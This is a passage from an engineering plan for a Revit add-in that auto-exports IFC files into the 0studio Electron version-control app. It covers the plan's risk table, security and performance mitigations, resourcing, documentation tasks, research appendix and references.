| IFC4 Reference View tessellation quality is poor for some Revit models | Medium | Medium | Validate with real models in Phase 1; fall back to IFC2x3 Coordination View 2.0 if web-ifc parses it better. |
| 90 s timeout is too short for very large models | Medium | Medium | Make timeout configurable via Electron user settings; surface in the diagnostics modal; learn-per-project timeout as future work. |
| DLL lock during install/update if Revit is running | Medium | High (during updates) | NSIS detects running Revit, prompts user to close; uninstaller uses `Delete /REBOOTOK`; design for side-by-side versioned DLL filenames in a future auto-update plan. |
| User declines Revit's "Always Load" trust dialog | Low | Low | Authenticode-sign the DLL; banner explains the trust dialog; users can re-enable from Revit's Add-In Manager. |
| Silent failure: add-in installed but not loaded (Revit policy, antivirus) | Medium | Low | Heartbeat detection catches "not loaded" and shows `unavailable`; diagnostics modal surfaces add-in log. |
| Save As / Save to Central edge cases (SpecFlow Flow I) | Low | Medium | Add-in subscribes to all three events; document workshared-model assumption (open on local cache, not central UNC); v1 accepts that Save As creates a new project the user must open. |
| Phase 0 introduces a regression in `.3dm` commits | High (if it slips) | Low | Phase 0 work is small (~30 LOC); covered by acceptance test on a known `.3dm` project; staged behind a feature flag if release timing demands. |
| Banner dismissal localStorage cleared by user → banner re-appears repeatedly | Low | Low | Acceptable behavior; user can re-dismiss. |
| First-overwrite sentinel file is committed to git accidentally and ships with cloned projects | Low | Low | Deferred to v2 (cut in YAGNI review); n/a for v1. |
| **NEW: Synchronous `DocumentSaved` handler freezes Revit UI 10–60 s per save** | High | High (without fix) | Resolved in plan: switched to `ExternalEvent` + `Idling` pattern; handler returns &lt; 100 ms; export runs on next idle tick. (performance §1, §2) |
| **NEW: 90 s timeout fails 95th-percentile real models (200 MB+ → 60–180 s; 500 MB+ → 3–15 min)** | High | Medium | Default timeout raised to 180 s; configurable in user settings; size-based skip threshold at 250 MB with chip variant `unavailable: 'rvt-too-large'`. Telemetry actual p50/p95/p99 post-release. (performance §1) |
| **NEW: User clicks "Save Version" while IFC export is in-flight → derivative lies (`'present'` flag on stale glb)** | High | Medium | `commitModelChanges` queries `revitSidecarGate.isWaiting()`; if true, sets `derivativeStatus: 'stale'` and triggers regenerate when fresh `.ifc` lands. (data-integrity §6) |
| **NEW: Late `.ifc` after timeout regenerates the wrong commit** | High | Medium | `ifc-arrived-late` payload includes `rvtSha256`; renderer matches against commit `.rvt` hashes; mismatch → toast "Auto-preview superseded by newer save", no regeneration. (data-integrity §5) |
| **NEW: Gate timer leak on rapid saves** | High | Low | `clearTimeout` BEFORE reassignment of `pendingTimerId`; covered by `node:test` asserting `setTimeout`/`clearTimeout` call counts. (performance §6) |
| **NEW: Hostile `.glb` from compromised producer exfiltrates via GLTFLoader URI fetch** | Medium | Low | Renderer-side `URLModifier` rejects non-`blob:`/`data:` URIs; glTF extension allowlist; 200 MB declared-buffer cap; CSP `connect-src` audit. (security §8) |
| **NEW: Code-sign cert expires → already-installed DLLs become "untrusted" overnight** | Medium | Low (if mitigated) | Mandatory RFC 3161 timestamping (`signtool /tr ... /td sha256 /fd sha256`); build verifies via `signtool verify /pa /tw` and fails if no timestamp. (security §1) |
| **NEW: Heartbeat spoof by hostile local process pushes 0studio into 90 s wait** | Low | Low | `RevitStatusService` cross-checks heartbeat `pid` against `tasklist`; verifies process image name is `Revit.exe`; verifies `bootTime` matches process start time. (security §3) |
| **NEW: `pendingRvtEvent` lost on app crash mid-wait → user's edit becomes invisible** | Medium | Low | Persist gate state to `%AppData%\0studio\pending-gate-state.json` on each transition; replay on app start; emit `commit-ready` if `.ifc` is now present. (data-integrity §1) |
| **NEW: Phase 0 partial-commit race (tree.json claims `derivativeStatus: 'present'` but `.glb` write didn't complete)** | High | Low | Strict ordering: `.rvt` write → `.glb` write (with fsync) → tree.json write. Startup integrity check walks recent commits and demotes `'present'` → `'missing'` if file is gone. (data-integrity §2) |
| **NEW: glTF derivative size blows out cloud sync egress** | Medium | High | Draco compression in `sceneToGlb` (10–20× reduction); size-budget log warning at &gt; 50 MB. (performance §5) |

## Resource Requirements

- **Engineering effort:** ~3–4 weeks for one full-stack engineer comfortable with both TypeScript/Electron and C#/.NET. Phase 0 is < 1 day. Phase 1 (.NET add-in) is the longest pole at ~1.5–2 weeks given greenfield .NET territory in this team. Phases 2–4 are ~1 week. Phase 5 is ~3 days.
- **Tooling:** Windows development VM with Visual Studio 2022 (or `dotnet` CLI) + Revit 2024 + Revit 2025 installed for testing. CI: extend the existing `tester-build.yml` workflow on `windows-latest` to run `dotnet build` before electron-builder.
- **Code-signing:** existing Authenticode cert; if it's an EV cert, the install-time SmartScreen reputation has already been seasoned by prior 0studio releases. If it's not EV, expect SmartScreen warnings on the first installer build that ships the Revit add-in payload (cosmetic, dismissible).
- **Test data:** 3–5 representative `.rvt` files of varying sizes from real users (with permission) to validate IFC export quality and latency.

## Future Considerations

- **Auto-update with side-by-side DLL versioning:** when 0studio gains auto-update (no `publish` block today), use versioned DLL filenames (`0studio-revit-2024.v1.2.0.dll`) referenced from a regenerated `.addin` manifest. Avoids the in-use-DLL-during-update problem cleanly.
- **Workshared / detached central full support:** v1 assumes local-cache paths; full UNC / central-model support is a follow-up if customers ask.
- **Save-while-offline retroactive detection:** at project open, compare `.rvt` mtime to last commit timestamp and surface "Uncommitted changes from offline editing" if newer.
- **IFC export preset configurability:** advanced users may want to tune coordinates / units / level-of-detail. Defer until users ask.
- **Telemetry-driven version expansion:** if telemetry shows meaningful Revit 2023 usage, add it to the targeted-versions matrix in a future release.
- **Linux / macOS Revit support:** Revit doesn't run on these platforms; rely on the cloud-sync derivative path indefinitely. Possibly worth exploring the APS Model Derivative API as an *opt-in alternative* for non-Windows users in a future plan.
- **AutoCAD / Civil 3D adjacency:** the same architecture (event-driven add-in + atomic file write + 0studio commit gate) extends to other Autodesk products if the customer base expands.
- **In-app reinstall flow:** when the diagnostic modal detects "manifest missing but DLL present" (or vice versa), expose a "Redeploy add-in" button calling the stub `redeploy-revit-addin` IPC.

## Documentation Plan

- `docs/BUILD_GUIDE.md` — add a "Building the Revit add-in" section: prerequisites (`dotnet` SDK, Revit API references), `revit-addin/build.ps1` flow, where signed binaries land (`build/revit-addin/`).
- `docs/CODE_SIGNING_GUIDE.md` — add a "Signing the Revit add-in DLL" subsection: same Authenticode cert as the Electron app, signed pre-electron-builder.
- New `docs/REVIT_AUTO_PREVIEW_GUIDE.md` (user-facing) — what auto-preview is, what the chip states mean, troubleshooting steps (close Revit and reopen, reinstall 0studio, check the diagnostics modal).
- Inline doc-comments in `electron/services/revit-sidecar-gate.ts` and `revit-status-service.ts` explaining the heartbeat-based detection model.
- Update `CLAUDE.md` to add `RevitPreviewContext` to the documented context order.
- A short "Lessons learned" entry in `docs/solutions/` (creating that directory if it doesn't exist) capturing: extraResources + custom NSIS for native payloads, multi-targeting Revit add-in csproj, heartbeat-file pattern for cross-process activity detection.

## Research Insights Appendix

Findings from 8 parallel review agents on 2026-05-03. Critical corrections were folded into the main plan body inline; this appendix preserves the full attribution and lower-priority recommendations for posterity.

### Architecture (Severity rating)
- **medium**: Gate event split (`file-changed` immediate + `commit-ready` gated) preserves preview-reload UX during the 90/180 s wait. Without the split, the on-screen 3D preview "freezes" while waiting for `.ifc`. Folded into Phase 3.
- **medium**: Phase 0 should land as a separate prior PR before the Revit-specific work, despite living in the same plan document. The single-commit-funnel touched (`commitModelChanges`) has broad blast radius and deserves isolated review attention.
- **low**: `RevitAddinContext` (renamed from `RevitPreviewContext` to avoid overloading "preview" with `ModelContext`'s geometry preview).
- **low**: Add `Revit.exe` process check to disambiguate "Revit running but add-in dead" — folded into `RevitStatusService` design.

### Performance (Severity rating)
- **HIGH**: Synchronous `DocumentSaved` handler freezes Revit UI 10–60 s per save. Switched to `ExternalEvent` + `Idling`. Folded into Phase 1.
- **HIGH**: 90 s timeout fails 95th-percentile real models. Default raised to 180 s, configurable, with size-based skip at 250 MB. Folded into Phase 1 + Risk table.
- **MEDIUM**: glTF derivative size (50 MB `.rvt` → 5–25 MB `.glb`; 500 MB → 80–200 MB) blows out cloud sync egress. Draco compression added to `sceneToGlb`. Folded into Phase 4.
- **MEDIUM**: Gate timer leak on rapid saves (`pendingTimerId` reassignment without `clearTimeout`). One-line fix in Phase 3 with a unit test.
- **MEDIUM**: chokidar's 1500 ms `awaitWriteFinish.stabilityThreshold` is appropriate for `.rvt` but adds 30–60 % perceived latency for small `.ifc`. Lower to 500 ms specifically for the sidecar watcher (or fall back to polling-stat in the gate). **Action**: Phase 3 implementation task — investigate per-path `awaitWriteFinish` and document the chosen approach.
- **LOW**: Heartbeat polling cadence — 5 s for first 30 s post-launch (fast initial detection), then 30 s steady state. Folded into Phase 1 / Phase 3.

### Security (Severity rating)
- **MEDIUM**: Hostile `.glb` from compromised producer. GLTFLoader URLModifier + extension allowlist + 200 MB buffer cap. Folded into Phase 4.
- **MEDIUM**: Authenticode timestamping mandatory. Folded into Phase 2 + Quality Gates.
- **MEDIUM**: "Do Not Load" recovery — `manifest-but-no-heartbeat` chip variant + diagnostic copy guiding to Add-In Manager. Folded into Phase 3.
- **LOW**: Heartbeat spoof. PID + `tasklist` cross-check + bootTime validation. Folded into Phase 3.
- **LOW**: Log file path traversal. Hard-coded path + numeric year whitelist + lstat reject. Folded into Phase 5.

### Simplicity / YAGNI (cuts applied)
| Item | Verdict | LOC saved |
|---|---|---|
| `RevitPreviewContext` 8th context | KEPT (renamed `RevitAddinContext`) | 0 — architecture review pushed back on the simplicity cut |
| `SetupBanner` future-reusable primitive | INLINED as `RevitSetupBanner` in `VersionControl.tsx` | ~40 |
| `redeploy-revit-addin` IPC stub | CUT | ~30 |
| Status chip 5 states | SIMPLIFIED to 3 (`stale` becomes toast + commit row button) | ~25 |
| First-overwrite sentinel + delta heuristic | DEFERRED to v2 | ~80 |
| Diagnostics modal with redacted bundle | SIMPLIFIED to "Open log folder" | ~120 |
| Multi-target csproj 2024 + 2025 | KEPT | 0 |
| 90 s timeout configurability | PROMOTED (now configurable per performance review) | minor add |

Net: ~290 LOC + 2 files cut from v1; Phase 5 collapses to ~1 day. None of the cuts touch load-bearing architecture (Phase 0 derivatives, the gate, the heartbeat, the chip itself).

### Data Integrity (Severity rating)
- **HIGH**: Gate state lost on crash. Persisted to `pending-gate-state.json` with replay on app start.
- **HIGH**: Phase 0 partial-commit ordering. Strict `.rvt` → `.glb` → tree.json + startup integrity check.
- **HIGH**: Late `.ifc` regenerates wrong commit. `rvtSha256` matching in `ifc-arrived-late` payload.
- **HIGH**: Concurrent read/write semantic mismatch (Save Version during in-flight export). `gate.isWaiting()` check + `derivativeStatus: 'stale'` fallback.
- **MEDIUM**: Heartbeat per-year confusion. Already correctly handled by basename matching, NOT by year — confirmed; added test.
- **LOW**: Sentinel file portability. Moot (sentinel cut from v1).
- **LOW**: NSIS uninstall + orphaned DLL with denied reboot. Acceptable degraded state — `unavailable: 'no-manifest'` chip; document.

### Pattern Recognition (Severity rating)
- **MEDIUM (corrected)**: Plan referenced Vitest; codebase uses `node:test`. All references corrected.
- **MEDIUM**: `%AppData%\0studio\` literal must be verified against `app.getPath('userData')` resolution. Phase 3 implementation includes a startup assertion.
- **LOW**: `late-ifc-arrival` → `ifc-arrived-late` for naming consistency with existing past-tense push events. Corrected.
- **LOW**: New services should use `electron-log/main` matching `oauth-service.ts:4` precedent. Documented.
- **LOW**: Modals should reuse `@/components/ui` Dialog (matches `DiagnosticsModal.tsx` precedent). Moot for v1 — diagnostics modal cut.

### TypeScript (high-value findings)
- **CRITICAL**: Heartbeat schema needs `schemaVersion: 1` from day 1. Once shipped to users' `%AppData%`, a missing-field migration is impossible. Folded into Phase 1.
- **HIGH**: Discriminated union for `RevitAddinState` with state-specific data, exhaustive `switch (s.kind)`. Folded into Phase 3 typing.
- **HIGH**: Single shared types module + declaration-merging `Window['electronAPI']` augmentation — drops `as any` casts (and is a model for future cleanup of the existing 18+ casts in `desktop-api.ts`). Folded into Phase 3.
- **HIGH**: Extract derivative pipeline into `src/lib/derivative-pipeline.ts` as `generateAndSaveDerivative(...)` returning a discriminated `DerivativeOutcome`. Don't fatten `commitModelChanges`. Folded into Phase 0 implementation tasks.
- **MEDIUM**: `derivativeStatus` stays optional in tree.json schema (existing data without it must keep parsing); normalize `undefined → 'missing'` at read boundary. Folded into Phase 0.
- **MEDIUM**: `Result<T, E>` type for `sceneToGlb` (discriminated `{ ok: true, bytes } | { ok: false, error: GlbGenError }`). Lets regen UI surface specific errors and telemetry distinguish failure modes. Folded into Phase 0.
- **LOW**: Subscription cleanup pattern matches existing `desktop-api.ts:225–253` precedent. Already correct in plan; documented.

### IFC + web-ifc 2026 best practices (research-confirmed)
- **IFC4 Reference View** is the right export target — most-tested geometry path in web-ifc. Validate against `revit-ifc#629` (RV scaling 1000× off) with real Revit-exported files in Phase 1. Keep IFC2x3 CV 2.0 as a fallback flag.
- **Canonical 2026 pipeline**: `web-ifc@0.0.77` + `@thatopen/components` `IfcLoader` (legacy `web-ifc-three` deprecated). Use `@thatopen/components` `exportIfcAsGltf()` to preserve IFC express IDs as glTF extras, rather than hand-rolling `GLTFExporter` over raw web-ifc geometry. **Action**: Phase 0 / Phase 4 implementation tasks should evaluate migrating from current rendering pipeline to `@thatopen/components` for consistency, or stay on the current path with rationale.
- **TessellationLevelOfDetail = 0.5** is the empirical sweet spot. 0.25 = visible faceting; 0.75+ = 20–60 % file growth with diminishing returns.
- **chokidar v4+** with `atomic: true` (default) — pin a recent v4+; v5.0.0 is ESM-only with Node 20+. Add an `ignored` filter for `.tmp-*` patterns:
  ```js
  ignored: (p) => p.endsWith('.tmp') || /\.tmp-[0-9a-f-]+$/i.test(p)
  ```
  Avoids spurious events on the temp file the add-in writes before atomic rename.
- **Heartbeat pattern**: include PID + bootTime; orphan-heartbeat detection requires both. Place outside the watched tree to avoid self-triggering chokidar. mtime resolution on Windows is ~10 ms — don't set thresholds below 250 ms.

### Open implementation tasks introduced by deepen-plan

These items the original plan did not specify and the reviews surfaced as deserving explicit Phase tasks:

1. **Phase 0**: extract `generateAndSaveDerivative` helper to `src/lib/derivative-pipeline.ts` returning a `DerivativeOutcome` discriminated union; add startup integrity check that walks recent commits and demotes `'present'` → `'missing'` if file is gone.
2. **Phase 1**: implement `IExternalEventHandler` pattern; snapshot doc version inside `DocumentSaved` to abort `Execute()` on stale state; validate against `revit-ifc#629` with at least one fixture file.
3. **Phase 2**: build verifier that fails if RFC 3161 timestamp is absent or signing CN differs from Electron exe.
4. **Phase 3**: split watcher event into `file-changed` (immediate) + `commit-ready` (gated); persist gate state to `pending-gate-state.json`; investigate per-path `awaitWriteFinish` (chokidar v4 doesn't natively support per-path; consider polling-stat fallback in the gate); add startup assertion `app.getPath('userData') === path.join(app.getPath('appData'), '0studio')`.
5. **Phase 4**: wire `gate.isWaiting()` check into `commitModelChanges`; harden GLTFLoader (URLModifier + extension allowlist + buffer cap); add Draco compression to `sceneToGlb`.
6. **Phase 5**: collapse to "Open log folder" + log file path-traversal hardening; cut diagnostic modal.

## Sources & References

### Origin

- **Origin document:** [`docs/brainstorms/2026-05-03-revit-auto-ifc-export-requirements.md`](../brainstorms/2026-05-03-revit-auto-ifc-export-requirements.md). Key decisions carried forward:
  1. Conversion via Revit add-in (rejected APS, headless Revit, Dynamo) — see origin §"Key Decisions".
  2. Trigger on every `DocumentSaved` (rejected debounced/manual triggers) — see origin R1.
  3. Bundle with Windows installer, auto-install (rejected separate installer / manual side-load) — see origin R2.
  4. Same-folder, same-basename `.ifc` (rejected hidden cache / in-memory handoff) — see origin R4.
  5. Always-overwrite policy with one-time notice on first clobber — see origin R5.
  6. Wait-for-`.ifc` commit gating with 90 s timeout fallback — see origin R6.
  7. Subtle status chip + first-run banner — see origin R8.

### Internal References

- Architecture decisions:
  - `docs/brainstorms/2026-04-22-dual-artifact-commit-model-requirements.md` — dual-artifact origin
  - `docs/plans/2026-04-22-001-feat-dual-artifact-commit-model-plan.md` — Phase 2 of which is unblocked here
  - `docs/ideation/2026-04-22-revit-support-ideation.md` — the ideation that originally rejected the add-in approach (now reversed)
- Similar features and existing surfaces:
  - `electron/services/file-watcher.ts:34–68` — chokidar config and event emission
  - `electron/services/ifc-sidecar-service.ts:92–135` — sidecar detection
  - `electron/main.ts:408` — IPC handler precedent
  - `electron/main.ts:608–637` — watcher → renderer wire (insertion point for the gate)
  - `electron/main.ts:652–671` — `redetectIfcSidecar` flow (must remain unchanged)
  - `src/contexts/VersionControlContext.tsx:660–675` — file-change handling
  - `src/contexts/VersionControlContext.tsx:679–893` — `commitModelChanges` (Phase 0 target)
  - `src/components/VersionControl.tsx:790–844` — commit panel + cloud sync chip pattern (chip insertion point)
  - `package.json:184–222` — NSIS block (Phase 2 target)
  - `scripts/afterPack.cjs:14–28` — currently Darwin-only; extension hook for Windows pre-pack
- IPC pattern reference:
  - `electron/preload.ts:24, 99–103, 133` — bridging and unsubscribe semantics
  - `src/lib/desktop-api.ts:78–81, 235–238` — wrappers and event subscriptions

### External References

- [Revit API Docs 2025.3 — release notes](https://www.revitapidocs.com/2025.3/news)
- [Revit API Docs 2024 — DocumentSaved event reference](https://www.revitapidocs.com/2024/3eef29c9-7384-77e7-e4c1-d2149ea79e95.htm)
- [Autodesk Help — Migrating from .NET 4.8 to .NET 8](https://help.autodesk.com/cloudhelp/2025/DEU/Revit-API/files/Revit_API_Developers_Guide/Introduction/Getting_Started/Using_the_Autodesk_Revit_API/Revit_API_Revit_API_Developers_Guide_Introduction_Getting_Started_Using_the_Autodesk_Revit_API_NET8_Update_html.html)
- [Autodesk revit-ifc — IFCExportConfiguration source](https://github.com/Autodesk/revit-ifc/blob/master/Source/IFCExporterUIOverride/IFCExportConfiguration.cs)
- [Autodesk Help — IFC Export (API Developer's Guide, Revit 2024)](https://help.autodesk.com/view/RVT/2024/ENU/?guid=Revit_API_Revit_API_Developers_Guide_Advanced_Topics_Export_IFC_Export_html)
- [Autodesk Help — Add-in Registration (manifest, paths)](https://help.autodesk.com/view/RVT/2025/ENU/?guid=Revit_API_Revit_API_Developers_Guide_Introduction_Add_In_Integration_Add_in_Registration_html)
- [Autodesk Help — Digitally Signing Your Revit Add-in](https://help.autodesk.com/cloudhelp/2024/CHS/Revit-API/files/Revit_API_Developers_Guide/Introduction/Add_In_Integration/Digitally_Signing_Your_Revit_Add_in/Revit_API_Revit_API_Developers_Guide_Introduction_Add_In_Integration_Digitally_Signing_Your_Revit_Add_in_Digitally_Signing_Your_App_html.html)
- [electron-builder — NSIS configuration](https://www.electron.build/nsis.html)
- [electron-builder — Application Contents (extraResources vs extraFiles)](https://www.electron.build/contents.html)
- [SilentInstallHQ — Detection script for Autodesk Revit 2024 (registry path)](https://silentinstallhq.com/create-a-custom-detection-script-for-autodesk-revit-2024-powershell/)
- [archi-lab — Code signing of your Revit plug-ins](https://archi-lab.net/code-signing-of-your-revit-plug-ins/)
- [The Building Coder — Asynchronous API Calls and Idling](http://jeremytammik.github.io/tbc/a/0353_asynchronous.htm)
- [Nice3point/RevitToolkit — multi-version add-in toolkit reference](https://github.com/Nice3point/RevitToolkit)

### Related Work

- Previous PRs / branches:
  - `feat/windows-hardening-phase-0` (current branch) — companion Windows packaging work
  - `feat(repo): untrack stale build outputs` — recent installer-related cleanup
- Related plans:
  - `docs/plans/2026-04-26-001-feat-windows-build-hardening-plan.md`
  - `docs/plans/2026-04-22-001-feat-dual-artifact-commit-model-plan.md` (Phase 2 unblocked here)
  - `docs/plans/2026-04-09-001-feat-multi-format-cad-file-support-plan.md`
- Related brainstorms:
  - `docs/brainstorms/2026-04-22-dual-artifact-commit-model-requirements.md`
  - `docs/brainstorms/2026-04-09-multi-format-support-requirements.md`
  - `docs/brainstorms/2026-04-23-windows-build-hardening-requirements.md`
